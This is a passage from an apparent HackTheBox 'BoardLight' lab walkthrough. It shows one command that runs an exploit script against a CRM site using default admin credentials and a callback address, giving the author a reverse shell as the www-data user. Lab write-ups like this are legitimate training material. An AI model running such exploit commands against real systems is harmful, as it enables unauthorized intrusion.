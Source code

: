 ![](assets/img/htb_boardlight/Screenshot_From_2024-09-23_01-48-18.png)

after establishing the netcat session, now I run the following command:

``` python
python3 exploit.py http://crm.board.htb admin admin 10.10.14.14 8080
```

and we're in! it looks like we have landed using the www-data user like we did with PermX (link to the walkthrough here: https://willanalyze.com/2024-09-14-HackTheBox_PermX_Walkthrough/):

### Exploit/Installation

![](assets/img/htb_boardlight/Screenshot_From_2024-09-23_01-55-29.png)
